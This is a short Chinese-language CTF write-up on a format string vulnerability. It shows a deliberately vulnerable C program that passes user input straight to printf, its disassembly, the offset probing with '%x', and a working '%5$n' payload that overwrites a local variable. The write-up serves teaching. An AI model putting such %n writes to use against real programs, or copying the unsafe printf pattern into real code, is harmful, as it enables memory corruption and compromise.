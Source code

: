 ```yaml
---
title: "某道Pwn（格式化字符串漏洞）"
id: csdn63253665
---
```


格式化字符串漏洞近几年出现频率少了，但是一些 CTF 中还有涉及，就当玩玩好了。

首先看这一段代码，什么比赛的题我忘了：

```
#include <stdio.h>
int main(void)
{ 
    int flag = 0;
    int *p = &flag; 
    char a[100];
    scanf("%s",a);
    printf(a);
    if(flag == 2000)
    {
        printf("good!!\n");
    }

    return 0;
}
```

目标是拿到Flag。我们使用GCC编译之后用ObjDump反编译：

```
 8048507:   c7 45 88 00 00 00 00    movl   $0x0,-0x78(%ebp) ;flag
 804850e:   8d 45 88                lea    -0x78(%ebp),%eax
 8048511:   89 45 8c                mov    %eax,-0x74(%ebp) ;p
 8048514:   83 ec 08                sub    $0x8,%esp
 8048517:   8d 45 90                lea    -0x70(%ebp),%eax ;a
 804851a:   50                      push   %eax
 804851b:   68 f0 85 04 08          push   $0x80485f0
 8048520:   e8 bb fe ff ff          call   80483e0 <__isoc99_scanf@plt>
 8048525:   83 c4 10                add    $0x10,%esp
```

我们可以看到`p`在`flag`下面四个偏移，`a`又在`p`下面四个偏移，用缓冲区溢出是不可能了。下面有个`printf`，也许可以利用字符串格式化漏洞。

继续往下看汇编：

```
 8048528:   83 ec 0c                sub    $0xc,%esp
 804852b:   8d 45 90                lea    -0x70(%ebp),%eax
 804852e:   50                      push   %eax
 804852f:   e8 5c fe ff ff          call   8048390 <printf@plt>
 8048534:   83 c4 10                add    $0x10,%esp
```

我们可以看到`printf`总共接受了 4 个参数，实际上只有一个有效参数。

我们可以使用`AAAA%x`来寻找`a`的偏移：

```
wizard@ubuntu:~/Desktop$ ./t2
AAAA%x
AAAAffee9b78wizard@ubuntu:~/Desktop$ ./t2
AAAA%2$x
AAAAf767e329wizard@ubuntu:~/Desktop$ ./t2
AAAA%4$x
AAAA0wizard@ubuntu:~/Desktop$ ./t2
AAAA%5$x
AAAAfff44cd0wizard@ubuntu:~/Desktop$ AAAA%6$x
AAAA41414141 
```

我们看到了一个 0 ，又看到了一个很像地址的东西。然后就是我们输入的`AAAA`。我们于是可以断定，第四个`%x`是`flag`，第五个`%x`是`p`，第六个`%x`是`a`的起始位置。

再试一下，发现栈基址是变化的：

```
wizard@ubuntu:~/Desktop$ ./t2
AAAA%5$x
AAAAffad7a70
```

也就是说，我们不能把`f`的地址写进`a`的前四个字节，但是我们可以利用`p`。构造字符串`"%.2000%x%5$n"`：

```
ffe43b880wizard@ubuntu:~/Desktop$ ./t2
%.2000x%5$n
...
0000000000000000000000000000000000000ffce9f98good!!
```

成功。